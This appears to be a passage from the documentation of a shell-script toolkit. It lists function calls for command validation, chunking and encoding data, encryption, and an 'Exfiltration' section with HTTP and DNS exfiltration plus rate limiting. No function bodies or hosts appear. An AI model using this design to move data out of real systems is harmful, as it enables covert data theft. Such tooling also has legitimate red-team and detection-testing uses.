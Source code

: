 #### 3.2 Command Validation
```sh
# Validate required commands
validate_commands

# Check specific command
command -v "$cmd" >/dev/null 2>&1
```

#### 3.3 Data Processing
```sh
# Format output
format_output "$data"

# Chunk data
chunk_data "$data" 63

# Encode data
encode_output "$data"
```

#### 3.4 Encryption
```sh
# Generate key
key=$(generate_random_key)

# Encrypt data
encrypted=$(encrypt_data "$data" "$method" "$key")

# Prepare encryption
prepare_encryption "$method"
```

#### 3.5 Exfiltration
```sh
# HTTP exfiltration
exfiltrate_http "$data" "$url"

# DNS exfiltration
exfiltrate_dns "$data" "$domain" "$id"

# Rate limiting
rate_limit
```

### 4. Error Handling

#### 4.1 Function Level
```sh
function_name() {
    local result
    result=$(command) || {
        debug_print "Error: Command failed"
        return 1
    }
    echo "$result"
}
```
